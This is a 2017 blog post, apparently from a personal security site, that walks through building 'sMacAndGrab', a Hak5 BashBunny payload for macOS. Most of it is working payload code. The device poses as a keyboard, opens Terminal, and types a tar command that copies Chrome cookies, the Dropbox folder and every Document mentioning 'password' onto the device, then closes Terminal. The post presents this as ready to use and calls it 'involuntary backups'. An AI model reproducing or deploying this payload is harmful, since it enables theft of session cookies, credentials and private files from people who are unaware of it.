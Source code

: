 +++
date = "2017-04-01T22:08:35-04:00"
title = "Creating BashBunny Payloads"
Description = "Creating Payloads for the Hak5 BashBunny"
menu = "main"
+++


## What is it?

The [BashBunny](http://wiki.bashbunny.com/#!index.md) is an attack platform that allows attackers to
create payloads in Bash. The device can be scripted to enumerate as a HID (keyboard), mass storage,
serial, and Ethernet. This enables a multitude of attacks including thing like exfiltrating
documents over a network interface or stealing account hashes from locked computers.

## Creating a Payload

We want to create a payload that allows for easy exfiltration from macOS. We also don't want to
force the attacker to know the exact path of the files that are to be extracted; we should allow them
to create bash commands whose output returns a list of files that are to be exfilled.

~~~bash.prettyprint

# here we set an amber color to the LED so that the 
# attacker knows that the payload has begun executing
LED G R 500

# instruct the BashBunny to enumerate as both a keyboard and
# mass storage on the host computer (masOS)
ATTACKMODE HID STORAGE

# this creates a folder in the BashBunny's loot directory
# that will be used by our payload
mkdir -p /root/udisk/loot/sMacAndGrab

# enter the name of the volume that will be mounted
dev_name="BASHBUNNY"

# this is a variable that holds the path to which we will instruct
# the target to copy our desired files
lootdir="\"/Volumes/$dev_name/loot/sMacAndGrab\""

# in this section, we add files, directories, and unix commands
# which return lists of files. this text will be typed exactly
# in the macOS terminal. Because this is bash, we have to escape 
# bash characters so that they don't evaluate when the script runs, 
# but rather they're seen as simple text.
files_to_copy=(
"\"~/Library/Application Support/Google/Chrome/Default/Cookies\"" # Quote paths with spaces
"~/Dropbox"  # enter entire directories
"\$(grep -lr password ~/Documents)" # get all Documents with the word 'password'
)
~~~

It's important to remember that this is a bash script and if we don't want symbols like `$;|:~` to
be evaluated, but rather typed or passed to the victim, they must be escaped with a backslash.

In the second half of the payload, we're defining strings that are going to by typed by the
BashBunny on the victim computer. This is why you'll see it peppered with `\\`

~~~bash.prettyprint

# these command instruct the BashBunny to act as a keyboard and physically
# type the commands

# Command + Space to launch Spotlight
QUACK GUI SPACE
QUACK DELAY 1000

# Opens the Terminal program
QUACK STRING terminal
QUACK ENTER
QUACK DELAY 4000

# Types a command to compress all of the previously defined files to 
# the previously defined storage location
QUACK STRING tar -cf \$USER.tar.gz ${files_to_copy[*]}\; mv \$USER.tar.gz $lootdir\; killall Terminal
# $lootdir and $files_to_copy are not escaped because we want them expanded to the variables we set
QUACK ENTER

# sync the filesystem to the BashBunny can be safely removed
sync

# let the attacker know that they can remove the BashBunny
LED G
~~~

And that's that. If one follows the directions in the wiki posted at the beginning of this post for
loading this payload, you have a payload that creates automatic involuntary backups in a matter of
seconds.

I've submitted the code to the official [Hak5 BashBunny Payload]
(https://github.com/hak5/bashbunny-payloads/tree/master/payloads/library/SmacAndGrab)
repo as the payload sMacAndGrab. Enjoy!
